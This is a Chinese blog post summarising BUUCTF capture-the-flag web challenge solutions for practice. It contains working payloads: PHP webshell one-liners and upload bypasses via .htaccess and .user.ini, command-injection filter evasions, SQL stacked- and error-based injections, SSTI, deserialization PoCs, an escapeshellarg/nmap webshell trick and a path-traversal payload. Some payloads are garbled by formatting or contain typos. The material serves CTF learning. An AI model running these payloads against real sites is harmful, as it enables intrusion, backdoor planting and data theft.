<!--yml
category: 未分类
date: 2022-04-26 14:44:36
-->

# buuctf web小结_绿冰壶的博客-CSDN博客

> 来源：[https://blog.csdn.net/qq_42551635/article/details/116137579](https://blog.csdn.net/qq_42551635/article/details/116137579)

# [MRCTF2020]你传你🐎呢

## .htaccess文件

```
AddType application/x-httpd-php xxx 
```

本句话的作用是使该.htaccess文件所在目录及其子目录中的后缀为.xxx的文件被Apache当做php文件

### 一个傻逼错误

var/www/html 是网站根目录，也就等价于 http://55f19d33-bd47-48ac-9734-232c1632f237.node3.buuoj.cn

所以蚁剑里链接时不能重复输入

## 题解

上传.htaccess文件（注意绕过MIME） 然后上传图片马 ，over

# [极客大挑战 2019]Secret File

#### 首先查看源码 发现链接

点进去

#### 发现一个button 点击 提示时间太短看不清

于是使用burp抓包，进入下一个文件

然后提示flag在flag.php里

#### 通过url访问

失败，说明file可能被过滤了，通过源码发现有file传参，猜测有文件包含，使用文件包含访问源码

# [GXYCTF2019]Ping Ping Ping

Linux的 命令执行

进入题目 根据提示，随便先给ip传个参



发现确实是Linux命令执行

然后构造命令执行

?ip=127.0.0.1 ;ls

成功执行



这里目标就很明确了 访问flag.php

先看看index里写了啥

构造?ip=127.0.0.1;cat index.php

出现 fxxk you space 字样，说明过滤了空格

### 于是使用一些方法代替空格

%20(space)、%09(tab)、$IFS 9 、 9、 9、{IFS}$9、 {IFS}、IFS

先使用{IFS}代替，发现 fxxk symbol 应该是花括号被过滤了，于是使用$IFS$9 成功搞到源码

然后发现[外链图片转存失败,源站可能有防盗链机制,建议将图片保存下来直接上传(img-0h5CqlbO-1619353883654)(C:\Users\绿冰壶\AppData\Roaming\Typora\typora-user-images\image-20210329193308190.png)]

这个正则会匹配一个字符串中，是否按顺序出现过flag四个字母

因此 我们， 就有了第一种payload构造思路：传参法

```
?ip=127.0.0.1;a=ag;b=fl;cat$IFS$9$b$a.php 
```

第二种思路运行shell 虽然bash被过滤了但是sh 没过滤

payload：

```
?ip=127.0.0.1;echo$IFS$1Y2F0IGZsYWcucGhw|base64$IFS$1-d|sh 
```

Y2F0IGZsYWcucGhw是cat flag.php的base64

第三种dalao思路原谅我暂时看不懂

使用内联执行：将反引号内命令的输出作为输入执行

```
?ip=127.0.0.1;cat$IFS$1`ls`或cat$IFS$9$(ls) 
```

这样会执行当前目录下所有文件

## exec

exec（）执行一个外部程序

linux命令执行漏洞

先 构造127.0.0.1；ls; ping 一下

只有一个首页；

利用命令执行看一下根目录

;cat /;

发现有flag 又没有丝毫过滤

直接;cat /flag; 得到flag

# [极客大挑战 2019]Knife

白给的shell 没啥好总结的 有手就行

# [护网杯 2018]easy_tornado

### python 下 tornado框架下的SSTI注入

##### render()渲染函数的ssti

{{}}包裹执行

### 哈希碰撞

```
 import hashlib
def md5(s):
    md5 = hashlib.md5()（声明使用该库）
    md5.update(s.encode("utf8"))//update()必须指定要加密的字符串的字符编码因此必须用encode转码不然会编译错误
    return md5.hexdigest()
def filehash():
    filename='/fllllllllllllag'
    cookie_secret ='4c46b45d-ba3f-412f-8d8a-e477bd921512'
    print(md5(cookie_secret+md5(filename)))
if __name__ == '__main__':
    filehash() 
```

### python hashlib库

```
>>> import hashlib
>>> m = hashlib.sha256()            # 通过构造函数获得一个hash对象
>>> m.update(b'Nobody inspects')    # 使用hash对象的update方法添加数据（传参）（记得编码防报错）
>>> m.digest()                  	# 获得bytes类型的消息摘要
>>> m.hexdigest()                   # 获得16进制str类型的消息摘要
>>> m.digest_size                   # 查看消息摘要的位长
>>> m.block_size                    # 查看消息摘要的内部块大小 
```

# [ACTF2020 新生赛]BackupFile

### dirsearch

-u +target url

-e + 网页语言

-s +线程

-x +过滤状态码

# [RoarCTF 2019]Easy Calc

## PHP 传参特性

查询字符串在解析的过程中会将某些字符删除或用下划线代替

1.删除空白符

2.将某些字符转换为下划线（包括空格）

[外链图片转存失败,源站可能有防盗链机制,建议将图片保存下来直接上传(img-isogPydx-1619353883655)(C:\Users\绿冰壶\AppData\Roaming\Typora\typora-user-images\image-20210331202302111.png)]

这样waf就找不到num这个变量了，因为现在的变量叫“ num”，而不是“num”。但php在解析的时候，会先把空格给去掉，这样我们的代码还能正常运行，还上传了非法字符。

## 利用scandir()函数 列出 参数目录 中的文件和目录

var_dump(scandir())

## 利用ascll码绕过过滤

例如 ‘/'可用 chr（47 ）代替

## 利用file_get_content以字符串形式读取文件

var_dump(file_get_contents)

var_dump(file_get_contents(chr(47).chr(102).chr(49).chr(97).chr(103).chr(103))) //利用ascll绕过的中间用. 间隔

## buyflag

根据条件抓包

当100000000等数额较大不匹配时可以采用科学计数法1e9

或利用strcmp函数的漏洞：money[]=100000000

# [极客大挑战 2019]BabySQL

### 学会了如何利用报错判断过滤

以及新的 注入姿势

比如查询ctf库中 Flag表中的flag

可以 select flag from ctf.Flag

以及爆不出某表中字段可以爆所有字段去掉where

# easy md5

整理经md5加密后出现`' or '的字符串`

```
129581926211651571912466741651878684928

ffifdyop 
```

# [SUCTF 2019]CheckIn

### 图片马的第三种绕过姿势

**使用gif头的比png等有优越性，当检查是基于文件头时，png的方法绕不过去**

当<? 等被过滤时，可以使用javascript来绕过

```
<script language='php'>eval($_POST['shell'])</script> 
```

### user.ini文件组成的php后门

.user.ini是一个能被动态加载的ini文件，和php.ini不同的是，修改了.user.ini后，不需要重启服务器中间件，只需要等待user_ini.cache_ttl所设置的时间（默认为300秒），即可被重新加载。
Php配置项中有两个比较有意思的项（下图第一、四个）：

auto_prepend_file：指定一个文件，自动包含在要执行的文件前，类似于在文件前调用了require()函数
auto_append_file：指定一个文件在文件后面包含。



user.ini 可理解成动态可编辑的php.ini

当我们对目录中的任何php文件进行访问时，都会调用.user.ini中指的文件以php的形式进行读取。

因此我们写一个以.user.ini 为后缀的文件上传（记得加gif文件头）

```
GIF89a
auto_prepend_file=shell.gif 
```

然后访问上传目录下的index.php 解析

# [ZJCTF 2019]NiZhuanSiWei

### data伪协议写入文件

```
if(isset($text)&&(file_get_contents($text,'r')==="welcome to the zjctf")) 
```

file_get_contents 可以配合data伪协议写入变量

由此构造payload：text=data:*//text/plain;base64,d2VsY29tZSB0byB0aGUgempjdGY=*

### filter协议读取源码

file=php:*//filter/read=convert.base64-encode/resource=useless.php*

### 反序列化

构造php文件，在代码尾部使用echo函数把序列化内容输出出来

> ```
> <?php  
> class Flag{  //flag.php  
>     public $file="flag.php";  
>     public function __tostring(){  
>         if(isset($this->file)){  
>             echo file_get_contents($this->file); 
>             echo "<br>";
>         return ("U R SO CLOSE !///COME ON PLZ");
>         }  
>     }  
> }  //以下为手动添加内容
> $a = new Flag();
> echo serialize($a);
> ?> 
> ```

### 利用注释提示

这是解码后的源码

```
<?php  

class Flag{  //flag.php  
    public $file;  
    public function __tostring(){  
        if(isset($this->file)){  
            echo file_get_contents($this->file); 
            echo "<br>";
        return ("U R SO CLOSE !///COME ON PLZ");
        }  
    }  
}  
?> 
```

注释里提示flag.php 常规的思路就是有一个变量的数值应该为flag.php 这里查看一下是 file缺少变量值然后搞一下

# [强网杯 2019]随便注

sql堆叠注入题目

首先按流程来， 输入1‘or 1=1 #正常输入 1’or 1=2 #报错 存在注入

然后爆字段 order by 3 报错 说明两个字段

然后 尝试联合查询 弹出了正则匹配过滤



select被过滤了

于是采用堆叠注入和 show 的方法 爆出库表

payload：

```
1';show databases; #
1';show tables from ctftraing; #
1';show columns from`1919810931114514`# 
```

然后发现 该表中有 flag字段

然鹅我们用show对字段是毫无办法的

呜呜呜

看dalao博客有了以下两种方式的payload

#### 1改名大法

1，通过 rename 先把 words 表改名为其他的表名。

2，把 1919810931114514 表的名字改为 words 。

3 ，给新 words 表添加新的列名 id 。

4，将 flag 改名为 data 。

```
1'; rename table words to word1; rename table  `1919810931114514` to words; alert table words 
add id int unsigned not Null auto_increment primary key ; alert table words change flag data 
varchar(100); 
```

#### 2使用handler语句

payload：

```
1'; handler `1919810931114514` open as `a`; handler `a` read next;# 
```

简单一点就是

```
1'; handler `1919810931114514` open; handler `1919810931114514`read next; # 
```

## 知识点总结

### show

在过滤了 select 和 where 的情况下，还可以使用 show 来爆出数据库名，表名，和列名。

```
show datebases; //数据库。

show tables from database; //表名。

show columns from table; //字段。 
```

### alert

作用：修改已知表的列。（ 添加：add | 修改：alert，change | 撤销：drop ）

```
添加一个列
alter table " table_name" add " column_name"  type;
删除一个列
alter table " table_name" drop " column_name"  type;
改变列的数据类型
alter table " table_name" alter column " column_name" type;
改列名
alter table " table_name" change " column1" " column2" type;
alter table "table_name" rename "column1" to "column2"; 
```

### SQL约束

```
not null- 指示某列不能存储 NULL 值。
alter table persons modify age int not null;//设置 not null 约束 。
alter table person modify age int null;//取消 null 约束。

primary key - NOT NULL 和 UNIQUE 的结合。指定主键，确保某列（或多个列的结合）有唯一标识，每个表有且只有一个主键
alter table persons add age primary key (id)

unique -保证某列的每行必须有唯一的值。(注：可以有多个 UNIQUE 约束，只能有一个 PRIMARY KEY 约束。 )
alter table person add unique (id);//增加unique约束。

check-限制列中值的范围。
alter table person add check (id>0);

default-规定没有给列赋值时的默认值。
alter table person alter city set default 'chengdu' ;//mysql

alter table person add constraint ab_c default 'chengdu' for city;//SQL Server / MS Access

auto_increment-自动赋值，默认从1开始。

foreign key-保证一个表中的数据匹配另一个表中的值的参照完整性。 
```

### 表名为数字时，要用反引号包起来查询。

```
0'; show columns from `1919810931114514 `; # 
```

### handler

handler语句用来读取表中数据

首先用

```
handler `table_name` open 
```

打开表

然后用

```
handler `table_name`read first/next 
```

阅读表中内容

# [MRCTF2020]Ez_bypass

简单的 MD5数组绕过，以及数字弱类型比较绕过，没有啥总结意义

# BUUCTF [GYCTF2020] Blacklist

### 与[强网杯 2019]随便注 一致。

堆叠注入；正则过滤select后使用show语句

handler语句爆字段

# [网鼎杯 2020 青龙组]AreUSerialz

### 代码审计

首先审计最后一块代码

```
if(isset($_GET{'str'})) {

$str = (string)$_GET['str'];
if(is_valid($str)) {
    $obj = unserialize($str);
} 
```

这一块的意思就是，通过get传入一个str字符串并且使用is_valid函数做判断，如果合法，就直接反序列化

于是我们接着审is_valid函数

```
function is_valid($s) {
  for($i = 0; $i < strlen($s); $i++)
    if(!(ord($s[$i]) >= 32 && ord($s[$i]) <= 125))
      return false;
  return true;
} 
```

### is_valid 函数

就是把字符串每一位放进来检测一下ascll值是否在32到125之间

这道题很明显我们需要通过给str传参反序列化获得flag

带着这个目的，我们需要研究一下`FileHandler`类。

```
class FileHandler {
protected $op;
protected $filename;
protected $content;

function __construct() {
    $op = "1";
    $filename = "/tmp/tmpfile";
    $content = "Hello World!";
    $this->process();
}

public function process() {
    if($this->op == "1") {
        $this->write();
    } else if($this->op == "2") {
        $res = $this->read();
        $this->output($res);
    } else {
        $this->output("Bad Hacker!");
    }
}

private function write() {
    if(isset($this->filename) && isset($this->content)) {
        if(strlen((string)$this->content) > 100) {
            $this->output("Too long!");
            die();
        }
        $res = file_put_contents($this->filename, $this->content);
        if($res) $this->output("Successful!");
        else $this->output("Failed!");
    } else {
        $this->output("Failed!");
    }
}

private function read() {
    $res = "";
    if(isset($this->filename)) {
        $res = file_get_contents($this->filename);
    }
    return $res;
}

private function output($s) {
    echo "[Result]: <br>";
    echo $s;
}

function __destruct() {
    if($this->op === "2")
        $this->op = "1";
    $this->content = "";
    $this->process();
}
} 
```

首先寻找危险函数 找到 file_get_contents 发现其在read()函数里

```
private function read() {
    $res = "";
    if(isset($this->filename)) {
        $res = file_get_contents($this->filename);
    }
    return $res;
} 
```

我们要得到flag的内容，所以得到filename的值应该为‘flag.php’ 同时，我们要想办法调用read‘这个函数

出发去找哪里调用了read()

发现process()

```
public function process() {
    if($this->op == "1") {
        $this->write();
    } else if($this->op == "2") {
        $res = $this->read();
        $this->output($res);
    } else {
        $this->output("Bad Hacker!");
    }
} 
```

得到op的值应该是2

继续回溯

找到process的上层

__constract()

然后发现终于没什么限制条件了，可以愉快的反序列化了

献上poc：

```
<?php
class FileHandler {
    protected $op = 2;
    protected $filename = 'php://filter/read=convert.base64-encode/resource=flag.php';
    protected $content;
}
echo serialize(new FileHandler);
?> 
```

# [GXYCTF2019]BabySQli

[外链图片转存失败,源站可能有防盗链机制,建议将图片保存下来直接上传(img-VEDgfBix-1619353883656)(C:\Users\绿冰壶\AppData\Roaming\Typora\typora-user-images\image-20210412193955199.png)]

打开题目，是一个登录界面，看来是登录型sql注入。然后一顿操作但它一直骂我hack

#### 不讲武德

唉只能开源码看看了， 发现一个search.php

戳进去

。。。啥也没有

再开源码

发现一串很奇异的字符串

原来是base32

解密

哇还套了一层base64 解密

```
select * from user where username = '$name' 
```

行了，知道是单引号闭合了

然后咋办呢

看到题目主页有个GitHub链接 戳进去，找到了search.php的源码

```
$name = $_POST['name'];
$password = $_POST['pw'];
$t_pw = md5($password); 
```

这里发现password是md5 加密的 要注意

```
 if($arr[1] == "admin"){
            if(md5($password) == $arr[2]){
                echo $flag;
            }
            else{
                die("wrong pass!");
            }
        }
        else{
            die("wrong user!"); 
```

这里发现，我们需要让password的MD5等于ar[2(别忘了下标是从0开始的 )

### 这里就需要利用union select的查询特性 增加arr组里的内容了

在联合查询并不存在的数据时，联合查询就会构造一个虚拟的数据。

实验：



执行后：



get！！

于是构造payload：

```
name=1'union select 1,'admin','81dc9bdb52d04dc20036dbd8313ed055'#&pw=1234 
```

## 知识点

### 利用union select的查询特性

在联合查询并不存在的数据时，联合查询就会构造一个虚拟的数据。

实验：


执行后：


get！！

# [BUUCTF 2018]Online Tool

### **escapeshellarg** 函数

**escapeshellarg** — 把字符串转码为可以在 shell 命令里使用的参数

**功能** ：escapeshellarg() 将给字符串增加一个单引号并且能引用或者转码任何已经存在的单引号，这样以确保能够直接将一个字符串传入 shell 函数，shell 函数包含 exec(), system() 执行运算符(反引号)*(字符串会被新**’ ‘**包裹 双引号会被替换成单引号 单引号会被加**/’’**转义*)



经过 **escapeshellarg** 函数处理过的参数被拼凑成 **shell** 命令，并且被双引号包裹这样就会造成漏洞，这主要在于**bash中双引号和单引号解析变量是有区别的**。

在**解析单引号的时候 , 被单引号包裹的内容中如果有变量 , 这个变量名是不会被解析成值的**，但是双引号不同 , bash 会将变量名解析成变量的值再使用。**所以假如单引号全闭合就等于没有单引号**



即使参数用了 **escapeshellarg** 函数过滤单引号，但参数在拼接命令的时候用了双引号的话还是会导致命令执行的漏洞。

### escapeshellcmd函数

功能：**escapeshellcmd()** 对字符串中可能会欺骗 shell 命令执行任意命令的字符进行转义。 此函数保证用户输入的数据在传送到 [exec()](http://php.net/manual/zh/function.exec.php) 或 [system()](http://php.net/manual/zh/function.system.php) 函数，或者 [执行操作符](http://php.net/manual/zh/language.operators.execution.php) 之前进行转义。

反斜线（\）会在以下字符之前插入： *&#;`|*?~<>^()[]{}$*, *\x0A* 和 *\xFF*。 *’* 和 *“* 仅**在不配对儿的时候被转义**。 在 Windows 平台上，所有这些字符以及 *%* 和 *!* 字符都会被空格代替。

**简而言之 过滤函数**



### PHP escapeshellarg()+escapeshellcmd() 之殇

1.  传入的参数是：`172.17.0.2' -v -d a=1`
2.  经过`escapeshellarg`处理后变成了`'172.17.0.2'\'' -v -d a=1'`，即先对单引号转义，再用单引号将左右两部分括起来从而起到连接的作用。
3.  经过`escapeshellcmd`处理后变成`'172.17.0.2'\\'' -v -d a=1\'`，这是因为`escapeshellcmd`对`\`以及最后那个**不配对儿**的引号进行了转义：http://php.net/manual/zh/function.escapeshellcmd.php
4.  最后执行的命令是`curl '172.17.0.2'\\'' -v -d a=1\'`，由于中间的`\\`被解释为`\`而不再是转义字符，所以后面的`'`没有被转义，与再后面的`'`配对儿成了一个空白连接符。所以可以简化为`curl 172.17.0.2\ -v -d a=1'`，即向`172.17.0.2\`发起请求，POST 数据为`a=1'`。

因此我们构造payload：

```
'<?php eval($_POST["a"]);?> -oG 1.php ' 
```

执行escapeshellarg()后

```
''\''<?php eval($_POST["a"]l)?> -oG 1.php '\''' 
```

在执行escapeshellcmd()后

```
''\\''<?php eval($_POST["a"]);?> -oG 1.php '\\' 
```

### 漏洞利用

**把想传输的命令用’ ‘包括起来**

tips：如果是先使用escapeshellcmd()后使用escapeshellarg()则没有此漏洞

# [GXYCTF2019]BabyUpload

图片马+.htaccess文件解析

get一种新的挂马方式

```
<script language='php'>eval($_POST[cmd]);</script> 
```

# [BJDCTF2020]The mystery of ip

## ssti

**PHP**可能存在**Twig模版注入漏洞**

### xff注入

打开页面 进入flag页面 发现提示



根据flag页面显示ip想到可能是 xff注入

抓包测试一下 把xff 改为1

发现ip回显果然为一 存在xff注入

PHP可能存在模板注入，因此测试 {{7*7}}

回显49 存在 ssti

因此开始命令执行

执行命令{{system(‘ls’)}}

发现flag.php

{{system(‘cat /flag.php’)}}

get flag

# [BJDCTF2020]ZJCTF，不过如此

```
<?php

error_reporting(0);
$text = $_GET["text"];
$file = $_GET["file"];
if(isset($text)&&(file_get_contents($text,'r')==="I have a dream")){
    echo "<br><h1>".file_get_contents($text,'r')."</h1></br>";
    if(preg_match("/flag/",$file)){
        die("Not now!");
    }

include($file);  

}
else{
    highlight_file(__FILE__);
}
?> 
```

首先是get传参的问题

向一个变量中传输一个字符串使用**data://伪协议**

payload：

```
?text=data://text/plain,I have a dream&file=php://filter/convert.base64-encode/resource=next.php 
```

读取了next.php 的源码

```
<?php
$id = $_GET['id'];
$_SESSION['id'] = $id;

function complex($re, $str) {
    return preg_replace(
        '/(' . $re . ')/ei',
        'strtolower("\\1")',
        $str
    );
}

foreach($_GET as $re => $str) {
    echo complex($re, $str). "\n";
}

function getFlag(){
	@eval($_GET['cmd']);
} 
```

foreach 函数 将数组键和键值分别赋值给两个变量

**实例演示：**

```
$row=array('one'=>1,'two'=>2);
foreach($row as $key=>$val){
echo $key.'--'.$val;
#one--1
#two--2 
```

而题目是`foreach($_GET as $re => $str)`，假设用GET方法传一个`index.php?hello=world`那么 r e = h e l l o ， re=hello， re=hello，str=world

然后是preg_replace 函数的 /e 漏洞

```
function complex($re, $str) {
    return preg_replace(
        '/(' . $re . ')/ei',
        'strtolower("\\1")',
        $str
    );
} 
```

strtolower 函数用于把大写字母转化为小写

\1 会取出正则表达式中第一个子匹配的第一项

所以我们要构造$re=/*S这样整个正则式就变为了

```
preg_replace('/(' . \S* . ')/ei','strtolower("\\S*")',$str) 
```

进一步

```
preg_replace('/(' . \S* . ')/ei',\\s*,$str) 
```

\s*在正则中表示匹配任意字符

这样就很明确了

我们要通过前端执行getFlag()函数 然后传getFlag()的参数cmd为命令执行

构造payload：

？(\S*)=${getfFlag()}&cmd=system(‘cat /flag’)

#### 最后一个疑问 为啥是`${getFlag()}`，而不是getFlag()

在php中，双引号里面如果包含有变量，php解释器会进行解析（不会被处理为函数）；单引号中的变量不会被处理。

而题目中`\1`就是被双引号包围起来的我们应该利用php的可变变量 不然getFlag()不会被作为函数执行

#### php可变变量

有时候使用可变变量名是很方便的。就是说，一个变量的变量名可以动态的设置和使用。一个普通的变量通过声明来设置，例如：

```
<?php$a = 'hello';?> 
```

一个可变变量获取了一个普通变量的值作为这个可变变量的变量名。在上面的例子中 *hello* 使用了两个美元符号（$）以后，就可以作为一个可变变量的变量了。例如：

```
<?php$$a = 'world';?> 
```

这时，两个变量都被定义了：$a 的内容是“hello”并且 $hello 的内容是“world”。因此，以下语句：

```
<?phpecho "$a ${$a}";?> 
```

与以下语句输出完全相同的结果：

```
<?phpecho "$a $hello";?> 
```

它们都会输出：hello world。

# [GWCTF 2019]我有一个数据库

首先用dirsearch扫描出 phpmyadmin 直接进入

发现能进去

然后没啥能看的 查看一下phpmyadmin版本百度搜索一下相关漏洞

发现该版本下有文件包含漏洞 利用现成payload

```
?target=db_datadict.php%253f/../../../../../../../../../flag 
```

# [GXYCTF2019]禁止套娃 WP

```
<?php
include "flag.php";
echo "flag在哪里呢？<br>";
if(isset($_GET['exp'])){
    if (!preg_match('/data:\/\/|filter:\/\/|php:\/\/|phar:\/\//i', $_GET['exp'])) {
        if(';' === preg_replace('/[a-z,_]+\((?R)?\)/', NULL, $_GET['exp'])) {
            if (!preg_match('/et|na|info|dec|bin|hex|oct|pi|log/i', $_GET['exp'])) {
                // echo $_GET['exp'];
                @eval($_GET['exp']);
            }
            else{
                die("还差一点哦！");
            }
        }
        else{
            die("再好好想想！");
        }
    }
    else{
        die("还想读flag，臭弟弟！");
    }
}
// highlight_file(__FILE__);
?> 
```

第一个正则是对各种正则的过滤

第二个正则用于匹配无参数函数（我们传的函数中不能用参数）

第三个正则过滤一些词组

接下来就要传参读取了

**先摆前置知识**

```
localeconv() 函数返回一包含本地数字及货币格式信息的数组。
scandir() 列出 images 目录中的文件和目录。
readfile() 输出一个文件。
current() 返回数组中的当前单元, 默认取第一个值。
pos() current() 的别名。
next() 函数将内部指针指向数组中的下一个元素，并输出。
array_reverse()以相反的元素顺序返回数组。
highlight_file()打印输出或者返回 filename 文件中语法高亮版本的代码。 
```

我们首先使用?exp=print_r(scandir(pos(localeconv()))) 看一下



发现flag在倒数第二位 那我们如何读取源码呢

利用array_reverse反转函数

构造payload：

```
?exp=show_source(next(array_reverse(scandir(pos(localconv()))))); 
```

但是上述方法有一定局限性，假如flag在例如第三位这样的位置我们就无计可施了，于是还有一个随机数多刷新出flag的万全之策

```
exp=show_source(array_rand(array_flip(scandir(pos(localeconv()))))); 
```

# [极客大挑战 2019]HardSQL 1

根据fuzz测试，本题过滤了 空格，= *

### 使用burp进行fuzz测试

1打开burp 抓包

2 吧抓到的数据包放入intruder模块

3 设置攻击位置，载入字典，爆破

4 根据各口令字长的不同，每种字长的都任意拿出一个放进repeater访问一下



5 根据repeater报文判断哪一类字长的是被过滤的

### sql报错注入

1’or(1)like(2)%23

1’or(updatexml(’<sub>’,concat(’</sub>’,database(),’<sub>’),’</sub>’))%23

1’or(updatexml(’<sub>’,concat(’</sub>’,(select(left(group_concat(schema_name),30))from(information_schema.schemata)),’<sub>’),’</sub>’))%23

1’or(updatexml(’<sub>’,concat(’</sub>’,(select(right(group_concat(schema_name),30))from(information_schema.schemata)),’<sub>’),’</sub>’))%23

1’or(updatexml(’<sub>’,concat(’</sub>’,(select(group_concat(table_name))from(information_schema.tables)where(table_schema)like’geek’),’<sub>’),’</sub>’))%23

1’or(updatexml(’<sub>’,concat(’</sub>’,(select(group_concat(id,’<sub>’,username,’</sub>’,password))from(geek.H4rDsq1)),’<sub>’),’</sub>’))%23

1’or(updatexml(’<sub>’,concat(’</sub>’,(select(right(group_concat(id,’<sub>’,username,’</sub>’,password),30))from(geek.H4rDsq1)),’<sub>’),’</sub>’))%23

## 基于xpath 的报错注入

### updatexml（）报错注入

```
1'or(updatexml('~',concat('~',database(),'~'),'~'))# 爆数据库名

1'or(updatexml('~',concat('~',(select((group_concat(schema_name),30))from(information_schema.schemata)),'~'),'~'))#爆所有数据库名

